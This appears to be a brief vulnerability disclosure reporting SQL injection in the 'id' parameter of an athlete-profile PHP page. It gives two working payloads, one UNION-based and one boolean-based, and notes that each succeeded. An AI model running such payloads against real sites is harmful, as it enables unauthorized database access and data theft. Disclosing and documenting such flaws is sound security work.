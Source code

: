 BUG_Author: zhangyf

Vulnerability File: /dipam/athlete-profile.php

GET parameter 'id' exists SQL injection vulnerability

Payload1: id=-1' union all select null,null,null,null,null,null,null,null,null,concat(0x56575859,0x60616263),null,null,null-- -

UNION query successful.

![image](https://github.com/M9KJ-TEAM/CVEReport/blob/main/7.png)

Payload2: id=243' AND 123=123 AND 'qwe'='qwe

The Boolean value is judged correctly, so the page is displayed normally.

![image](https://github.com/M9KJ-TEAM/CVEReport/blob/main/8.png)
